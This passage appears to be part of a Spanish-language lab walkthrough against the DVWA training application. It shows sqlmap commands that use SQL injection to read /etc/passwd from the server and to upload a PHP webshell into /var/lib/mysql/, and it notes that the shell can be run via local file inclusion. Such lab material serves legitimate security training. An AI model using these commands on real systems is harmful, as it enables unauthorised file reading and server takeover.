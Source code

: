 ## 2. Subir la webshell con SQLmap
**🟠2.1 Comprobar privilegio FILE**
```bash
sqlmap -u "http://10.0.2.x/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" --file-read="/etc/passwd"
```

O bien,
```bash
sqlmap -r request.txt --file-read="/etc/passwd" --file-read="/etc/passwd"
```

🔹**Donde**:
- `--file-read`: Le indica a SQLmap que lea un archivo dentro del sistema de archivos **DEL SERVIDOR** (No confundir con la base de datos)
- `/etc/passwd`: Es un archivo típico de sistemas Linux, contiene una lista de los usuarios del sistema.

**RESULTADO ESPERADO**
👉**Si en efecto, tenemos el privilegio `FILE`**, en efecto, al ejecutar este comando nos descargará el contenido, veremos algo como
> files saved to:
>[\*] /home/kali/.local/share/sqlmap/output/10.0.2.X/files/\_etc_passwd (size differs from remote file)

El cual, de hecho, se puede consultar
```bash
cat /home/kali/.local/share/sqlmap/output/10.0.2.X/files/_etc_passwd
```

>[!question] ¿Cómo saber dónde subir la shell reversa?:
>Al usar comandos como `--file-read` o `--file-write`, la instrucción se ejecuta por **el proceso del servidor MySQL** el cual corre en el **sistema operativo con un usuario específico**, que normalmente es *mysql* en Linux. Entonces, estamos limitados a las carpetas donde el usuario *mysql* tiene permisos de escritura
>


**🟠2.2Subir shell:**
```bash
sqlmap -u "http://10.0.2.x/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=43f0xxx; security=low" \
--file-write="/ruta/absoluta/a/shell.php" \
--file-dest="/var/lib/mysql/hacked.php"
```

🔹**Donde**:
- `--file-write`: Es el comando para **subir** un archivo. Aquí especificamos la ruta absoluta del archivo `shell.php` creado anteriormente
- `--file-dest`: Indica el **destino** en el servidor donde se subirá el archivo

>[!question] ¿Por qué /var/lib/mysql/?:
>🔹El usuario del sistema operativo que ejecuta MySQL (`mysql`) tiene permisos de escritura ahí.
>🔹Intentar escribir en otras rutas como `/var/www/html/` fallaron previamente porque `mysql` no tiene permisos allí.
>🔹Aunque la carpeta no es accesible directamente vía web, se puede **ejecutar usando un LFI (Local File Inclusion)**.
